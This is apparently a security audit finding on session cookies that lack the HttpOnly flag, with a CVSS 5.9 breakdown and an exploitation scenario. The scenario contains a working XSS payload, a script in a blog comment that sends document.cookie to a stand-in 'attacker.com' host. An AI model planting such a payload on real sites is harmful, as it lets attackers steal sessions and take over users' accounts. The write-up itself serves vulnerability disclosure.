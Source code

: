 Without the `HttpOnly` flag, cookies containing session identifiers are accessible to JavaScript running in the browser. If an attacker can execute malicious JavaScript in the victim's browser (through Cross-Site Scripting or other client-side attacks), they can steal the session cookie and use it to impersonate the victim, potentially gaining unauthorized access to sensitive information and functionality within the application.

# CVSS
**Score**: 5.9 \
**Vector**: CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:H/I:L/A:N \
**Severity**: Medium

The Medium severity rating (CVSS score 5.9) is based on the following assessment:

- **Network Attack Vector (AV:N)**: The vulnerability is remotely exploitable over the internet, as it affects web session cookies.

- **High Attack Complexity (AC:H)**: Exploitation requires an additional vulnerability (such as XSS) to access the cookies, increasing complexity. The attacker needs to find an injection point and craft a payload specifically to steal cookies.

- **No Privileges Required (PR:N)**: No authentication is needed to exploit this vulnerability. An unauthenticated attacker can execute the attack if they can find an XSS vulnerability.

- **User Interaction Required (UI:R)**: Successful exploitation typically requires the victim to visit a malicious page or click on a specially crafted link that executes the XSS payload.

- **Unchanged Scope (S:U)**: The vulnerability impacts only the vulnerable component (the web application) without crossing privilege boundaries.

- **High Confidentiality Impact (C:H)**: Successful exploitation can lead to complete disclosure of session data, potentially allowing full account takeover and access to all user data.

- **Low Integrity Impact (I:L)**: While the attacker cannot directly modify data, they can perform actions as the victim, resulting in a limited integrity impact.

- **No Availability Impact (A:N)**: The vulnerability does not directly affect system availability.

While the confidentiality impact is high, the overall score is moderated by the need for an additional vulnerability (XSS) and user interaction, resulting in a Medium severity classification.

# Exploitation Scenarios
**Scenario 1: Blog Comment XSS Attack**
An attacker discovers that Acme Corp's blog allows HTML in comments and doesn't properly sanitize user input. The attacker posts a comment containing a malicious script:

```html
Great article! <script>var img = new Image(); img.src = "https://attacker.com/steal?cookie=" + document.cookie;</script>

```

When legitimate users view the comment, the script executes in their browsers and sends their session cookies to the attacker's server. Because the session cookies lack the HttpOnly flag, the JavaScript can access them. The attacker then uses these stolen session identifiers to impersonate the victims, accessing their accounts without authorization.
